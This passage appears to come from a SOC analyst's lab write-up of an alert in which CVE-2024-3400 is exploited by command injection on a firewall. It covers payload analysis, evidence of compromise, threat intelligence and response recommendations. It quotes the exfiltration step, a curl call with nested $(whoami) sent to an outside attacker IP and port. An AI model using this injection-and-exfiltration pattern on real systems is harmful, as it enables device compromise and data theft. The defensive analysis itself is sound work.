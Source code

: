 *   **Data Exfiltration (`?user=$(whoami)`):** This is a nested command. The `$(whoami)` command is executed *first* on the firewall. Its output (which would be the current username, likely `root`) is then appended to the URL. The final `curl` command effectively sends a web request like `http://144.172.79.92:4444?user=root`, immediately exfiltrating the user context to the attacker and confirming successful RCE.

### 2. Confirmation of Success

The attack was confirmed as successful through multiple pieces of evidence:
*   **Device Action: Allowed:** The alert itself shows that the malicious request was not blocked by the firewall's own security policies.
*   **Endpoint Log Confirmation:** Analysis of the process logs on the firewall itself shows the execution of the malicious `curl` command, spawned by the web service process. This is the "smoking gun" that proves the command was executed on the device.

    <img width="1189" height="761" alt="image" src="https://github.com/user-attachments/assets/ba534dc2-b4f8-4f6d-9e1f-bb388bf45cc3" />

### 3. Threat Intelligence

A check on the source IP `144.172.79.92` in VirusTotal confirms its malicious reputation, with multiple vendors flagging it. This indicates the IP is part of a known attack infrastructure.

<img width="1709" height="801" alt="image" src="https://github.com/user-attachments/assets/cfa09979-8b91-47a2-8285-a30baa8aa00d" />

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR / Endpoint Security, VirusTotal
*   **Skills Demonstrated:** Command Injection Analysis, Vulnerability Triage (CVE-2024-3400), Log Correlation, Payload Deconstruction.

## Playbook Solution: Incident Classification

*   **Is Traffic Malicious?** **Yes.** It is a targeted exploit for a critical vulnerability.
*   **What Is The Attack Type?** **Command Injection** leading to **Remote Code Execution.**
*   **Was the Attack Successful?** **Yes.** The payload was processed, and the command was executed on the firewall.
*   **Do You Need Tier 2 Escalation?** **Yes.** This is a full compromise of a critical network security device.
*   **Incident Classification:** **True Positive.**

## Conclusion and Recommendations

The alert for SOC274 was a **true positive** for a successful and critical RCE attack against a perimeter firewall. The attacker exploited CVE-2024-3400 to gain root-level command execution. The firewall must be considered fully compromised and under attacker control, posing a catastrophic risk to the entire network.

**Recommendations:**

1.  **CONTAINMENT - Isolate Firewall Management:** Immediately restrict all access to the firewall's management interface. If possible, take the device offline for forensic imaging, but be aware this will cause a major network outage. Engage the network team immediately to plan for failover if available.
2.  **ESCALATE - Activate Full Incident Response Protocol:** Immediately escalate this incident to the Tier 2/IR team, network security team, and senior leadership.
3.  **INVESTIGATION:** A full forensic analysis of the firewall is mandatory. The IR team must determine what other commands were executed, if any persistence mechanisms (like backdoors or new admin accounts) were established, and if the attacker pivoted from the firewall into the internal network.
4.  **CREDENTIAL & KEY ROTATION:** All credentials, API keys, and certificates stored on the firewall must be considered compromised and must be rotated immediately.
5.  **ERADICATION & RECOVERY:** The firewall cannot be trusted. It must be completely wiped and rebuilt from a secure, trusted OS version and have its configuration redeployed from a known-good backup.